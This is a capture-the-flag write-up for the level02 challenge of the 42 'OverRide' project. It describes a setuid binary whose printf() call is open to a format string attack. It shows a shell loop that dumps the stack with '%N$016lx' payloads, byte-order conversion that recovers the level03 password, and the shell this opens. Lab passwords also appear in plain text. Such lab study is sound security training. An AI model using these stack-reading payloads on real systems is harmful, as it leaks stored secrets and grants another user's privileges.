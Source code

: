 ## TLTR;
Format string reading (attack) - read the content of `pass` buffer on the stack
***

Log into level02
```shell
┌──$ [~/42/2022/override]
└─>  ssh -p 4242 192.168.56.101 -l level02
     ____                  ____  _     __
    / __ \_   _____  _____/ __ \(_)___/ /__
   / / / / | / / _ \/ ___/ /_/ / / __  / _ \
  / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
  \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level02@192.168.56.101's password: PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
The binary file located in home directory of `level02` is an 64-bit executable.
```shell
level02@OverRide:~$ ls -l
total 12
-rwsr-s---+ 1 level03 users 9452 Sep 10  2016 level02
level02@OverRide:~$ file level02
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```
It contains only one user defined function `main()`

Executable open a `.pass` file of `level03` and read 41 bytes of data from the stream pointed to by the `fd`, storing them at the location given by first pointer to `buff`. It replace last character `\n` with `\0` and check that letght of buffer is equal to 41.

Then, it invite user to input username and password. So it reads in at most one less than 100 characters from `stdin` and stores them into the buffer pointed to by `username` and `password`. Once input is entered it replace `\n` with `\0`.

Finally, it compares user's password to password read from the file. If it match, it open a new process runnign a shell.
In case if password do not match, it ouputs username and message that it _does not have access!_.

Here `printf()` is ussed is such way that input string is evaluated as a command by the application, which is know as [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack). As the password still in the memory, it can be retrieved by passing to `printf()` a conversion specifier `%x`.

As password is stored in the buffer and FSA can be performed, read the stack using long conversion specifier `%lx` (as binary is an 64-bytes).

Let's read first 32 values on the stack, one at time, printing only hexadecimal values
```shell
level02@OverRide:~$ for i in {0..32}; do python -c "print('%$i\$016lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
00007fffffffe4f0 0000000000000000 0000000000000000 2a2a2a2a2a2a2a2a 2a2a2a2a2a2a2a2a 00007fffffffe6e8 00000001f7ff9a08 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000000000000 0000000100000000 0000000000000000 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d 0000000000000000 6c36313024383225 0000000000000078 0000000000000000 0000000000000000 0000000000000000
```
`filepass` content is lay on stack beetween offset 22 and 26.
```shell
level02@OverRide:~$ for i in {22..26}; do python -c "print('%$i\$016lx')" | ./level02 | grep -oE '[a-f0-9]{16}' | tr '\n' ' '; done; echo
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
```
Convert hexadecimal value to ASCII within Python
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"))
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
```
The password is incorrect.
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
*****************************************
level03 does not have access!
level02@OverRide:~$
level02@OverRide:~$ su level03
Password: unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
su: Authentication failure
```
The system and the binary are in Little endian configuration.
```shell
level02@OverRide:~$ lscpu | grep 'Byte Order'
Byte Order:            Little Endian
level02@OverRide:~$ readelf -h ./level02 | grep Data
  Data:                              2's complement, little endian
```
So the order of bytes need to be adjust.
```python
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41)
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytearray.fromhex("4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348"))
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
```shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: level03
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, level03!
$ id
uid=1002(level02) gid=1002(level02) euid=1003(level03) egid=100(users) groups=1003(level03),100(users),1002(level02)
$ cat /home/users/$(whoami)/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
